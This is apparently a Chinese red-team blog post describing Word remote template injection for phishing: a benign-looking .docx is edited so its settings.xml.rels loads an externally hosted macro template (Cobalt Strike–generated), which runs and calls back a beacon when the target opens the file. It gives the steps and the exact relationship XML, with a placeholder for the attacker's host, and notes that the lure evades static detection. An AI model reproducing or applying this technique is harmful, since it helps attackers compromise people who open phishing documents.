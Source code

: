 ```yaml
---
layout:     post
title:    word远程模板执行宏
subtitle:   word远程模板执行宏
date:       2019-10-08
author:     hmoytx
header-img: img/bg_02.jpg
catalog: true
tags:
    - 社工钓鱼
    - 渗透测试
    - 渗透
    - 红队
---
```

# word远程模板执行宏

## 原理  
Word远程模板执行宏就是利用Word文档加载附加模板时的缺陷所发起的恶意请求而达到的攻击目的，所以当目标用户点开攻击者发给他的恶意word文档就可以通过向远程服务器发送恶意请求的方式，然后加载模板执行恶意模板的宏。  
这种攻击更常见的原因是，发送的文档本身是不带恶意代码的，能过很多静态的检测。  

## 实践  
要完成这系列操作，首先要有两个word文档，一个是docx的，一个是带有恶意宏的dotm文档，前者是没有问题的，只是多了指向恶意模板的目标链接。  
### 创建带宏文档  
这里不多说了，直接用的cobalt strike生成的宏代码。  
![191006_1](/img/191006_makedotm.png)  
执行一下，测试能返回beacon，进行下一步。  
![191006_2](/img/191006_dotmbeacon.png)  
### 创建正常文档  
生成一个正常的docx文件，内容根据实际需求进行编造，保存后将后缀改成zip。2007以后发布的docx格式实际上是一个包含了诸多内容配置rels和xml文件的zip文件，将其解压
![191006_3](/img/191006_zip.png)  
### 修改模板地址  
修改./word/_rels/下的settings.xml.rels文件，没有的话可以自己添加。修改内容如下：  
```
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<Relationships xmlns="http://schemas.openxmlformats.org/package/2006/relationships">
<Relationship Id="rId1337" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/attachedTemplate" 
Target="模板托管地址" 
TargetMode="External"/>
</Relationships>
```
![191006_4](/img/191006_rels.png)  
最后保存后重新压缩成zip，并修改后缀为docx，执行测试，能返回。   
![191006_5](/img/191006_docxbeacon.png)


## 总结
没有
